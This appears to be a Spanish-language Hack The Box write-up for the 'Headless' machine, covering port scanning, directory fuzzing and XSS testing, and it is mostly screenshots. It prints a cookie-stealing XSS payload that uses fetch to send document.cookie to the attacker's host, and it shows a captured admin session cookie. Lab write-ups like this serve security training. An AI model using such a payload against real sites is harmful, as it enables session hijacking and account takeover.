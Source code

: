 #HTB - HEADLESS

## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


Efectivamente funciona la web, una vez tenemos acceso a ella lo primero que vamos a hacer es realizar un fuzzing en busca de directorios:

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)



``` javascript
<script>alert(‘XSS’)</script>
```



Después de probar con algunos xss decido probar por otro lado a ver si funciona.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b67c57b8-9bb9-4491-9385-a25d1fafbc15)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/f69baa5f-7213-4eb9-b143-225fbb06289b)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/7e6235d8-677f-46ee-baee-f669a02da363)

``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/269a605b-c54e-4c09-bfe0-872aee33c8ed)

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/9f4cb784-9d61-481b-928a-ddba6b524c6b)




![[Pasted image 20240404184300.png]]
